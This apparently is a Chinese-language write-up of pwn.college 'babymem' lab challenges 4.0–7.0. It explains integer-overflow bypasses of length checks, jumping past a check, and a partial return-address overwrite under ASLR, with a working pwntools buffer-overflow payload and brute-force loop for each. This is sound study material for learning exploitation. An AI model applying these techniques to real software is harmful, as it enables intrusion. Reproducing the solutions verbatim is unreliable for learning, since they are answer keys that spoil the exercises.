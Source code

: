 > 注：babymem 后续所有题目的 `x.1` 均是在 `x.0` 基础上要求自己确定偏移量和地址，不再赘述。

### 4.0

对输入长度进行检查，可以用整数溢出绕过，绕过后可能需要多运行几次才能成功，题目也给了提示：

> Because the read() call will interpret your size differently than the check above, the resulting read will be unstable and might fail. You will likely have to try this several times before your input is actually read.

这里 `size` 也可以直接写 `-1`。

```python
win = 0x401861
payload = b'a'*88+p64(win)
size = 0xffffffff

s(payload, size)
```

### 5.0

需要做一次乘法后得到溢出的结果，可以用 2 * 2147483648 得到。

```python
win = 0x4017eb
payload = b'a'*152+p64(win)
num = 2
size = 2147483648

sla('to send: ', num)
sla('record: ', size)
sa('bytes)!\n', payload)
```

### 6.0

题目给了做法，就是跳到检查语句后面的地址就可以绕过检查。

```python
win = 0x402177
payload = b'a'*88+p64(win)
s(payload)
```

### 7.0

和 6.0 一样需要跳到检查语句后面，IDA 可以看到这个地址是 0x358，区别在于开启了 ASLR 我们只能确定地址的后三位。这里使用的技巧是仅仅覆盖最后两个字节，此时倒数第 4 个 bit 有 1/16 的概率猜对，多运行几次即可。

本题可以删除模版中的 `p=process(binary)` 一行。

```python
win = 0x358
payload = b'a'*72+p16(win)

while True:
    p = process(binary)
    s(payload)

    res = p.recvall()
    if b'pwn.college{' in res:
        print(res[-100:])
        break
```
